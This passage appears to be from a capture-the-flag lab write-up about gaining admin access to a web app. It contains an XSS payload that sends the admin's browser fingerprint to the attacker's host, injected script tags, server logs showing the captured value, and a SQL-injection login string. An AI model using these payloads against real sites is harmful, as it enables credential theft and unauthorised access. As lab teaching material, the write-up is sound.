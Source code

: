 This cookie from the XSS is not that, but something different. I can’t explain it right now, but it will be valuable later.

#### Get Fingerprint

What I really need is the admin’s browser fingerprint. I’ll write an XSS payload to capture that. I’ll have the page include the `login.js` JavaScript that calculates the fingerprints. Knowing I have access to that, I’ll update `xss.js` to:

```

var req = new XMLHttpRequest();
req.open("GET", "http://10.10.14.6/?" + getFingerPrintID(), false)
req.send();

```

I’ll log in with two blocks: `<script src="http://10.10.11.127:8080/resources/js/login.js"></script><script src="http://10.10.14.6/xss.js"></script>`.

```

<script src="http://10.129.9:8080/resources/js/login.js"></script><script src="http://10.10.14.6/xss.js"></script>

```

One the next check, I get what looks like a fingerprint:

```
10.10.11.127 - - [05/Dec/2021 09:02:55] "GET /xss.js HTTP/1.1" 200 -
10.10.11.127 - - [05/Dec/2021 09:02:55] "GET /?962f4a03aa7ebc0515734cf398b0ccd6 HTTP/1.1" 200 -

```

I can confirm my guess above about the fingerprints being hashed before they are stored in the DB:

```

oxdf@hacky$ echo -n "962f4a03aa7ebc0515734cf398b0ccd6" | sha256sum 
7ef52c251f8044cb187013992891d0e58ce9194de7f535b1b4fa6bbfe08678f6  -

```

### Login

#### Get Cookie

Earlier I was able to bypass the username and potentially the password part of the auth, but failed when it checked the fingerprint. I’ll add this correct fingerprint to the query and see what comes back. When I use the username admin, I still get invalid fingerprint:

```

uid=' or username='admin' and ''='&auth_primary=password&auth_secondary=962f4a03aa7ebc0515734cf398b0ccd6

```
